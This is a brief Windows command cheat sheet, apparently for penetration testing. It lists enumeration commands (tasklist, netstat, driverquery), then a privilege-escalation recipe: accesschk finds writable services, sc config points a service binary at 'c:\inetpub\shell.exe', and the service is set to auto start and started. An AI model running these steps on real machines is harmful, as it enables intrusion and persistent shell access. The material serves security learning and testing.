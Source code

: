 # dos

## see running service processes
tasklist /SVC

## windows services and drivers
net start

## installed drivers
driverquery

## active network connections
netstat -ano

## show environment variables
set

## access check sysinternals
upload accesschk.exe
```dos
ac.exe /accepteula -uwcqv "Authenticated Users" *
```

## services sc

### enable service
### set to auto start
sc config SVC_NAME start= auto

### set binary path
sc config SVC_NAME binpath= "c:\inetpub\shell.exe"

### start service
net start SVC_NAME

## kill process by id
taskkill /f /pid 1234
